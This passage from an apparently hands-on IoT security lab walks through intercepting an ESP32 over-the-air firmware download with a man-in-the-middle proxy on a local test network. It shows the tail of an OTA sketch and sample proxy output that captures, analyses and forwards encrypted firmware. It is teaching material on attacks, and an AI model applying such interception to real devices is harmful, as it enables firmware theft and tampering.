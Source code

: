 ```cpp
            ESP.restart();
        } else {
            Serial.println("✗ OTA update failed");
        }
    }
}
```

#### Step 2.5: Upload and Watch the Attack!

1. **Upload** the modified sketch to ESP32
2. **Open Serial Monitor** (115200 baud)
3. **Watch both terminals**:
   - Terminal 1 (server): Shows firmware request
   - Terminal 2 (MITM): Shows interception!
4. **Watch Serial Monitor**: ESP32 downloading firmware

### Phase 3: See the Attack Happen! (Real-time)

#### What You'll See in Terminal 2 (MITM Proxy):

```
════════════════════════════════════════════════════════════════════
🎯 REAL REQUEST INTERCEPTED!
════════════════════════════════════════════════════════════════════
📡 Target: /firmware_encrypted.bin
📍 From: 192.168.1.50:54321
🖥️  User-Agent: ESP32HTTPClient

⚠️  FIRMWARE DOWNLOAD DETECTED!

──────────────────────────────────────────────────────────────────
🔍 INTERCEPTING REAL FIRMWARE
──────────────────────────────────────────────────────────────────
📥 Fetching from real server: http://192.168.1.100:8000/firmware_encrypted.bin
⏳ Downloading...
✓ Downloaded 245792 bytes

──────────────────────────────────────────────────────────────────
🔬 FIRMWARE ANALYSIS
──────────────────────────────────────────────────────────────────
📊 Size: 245,792 bytes (240.03 KB)
🔐 SHA-256: a3f5e8b2c9d1...
📈 Entropy: 7.89/8.0
⚠️  HIGH ENTROPY - Firmware appears ENCRYPTED
⚠️  Cannot modify without decryption key
💾 Saved to: intercepted_real_firmware_1728393847.bin

📊 MODE: MONITOR (Passive)
✓ Forwarding original firmware to ESP32
ℹ️  ESP32 will receive unmodified firmware
ℹ️  Attacker has complete copy for analysis

✓ ATTACK SUCCESSFUL - Firmware intercepted and logged
```
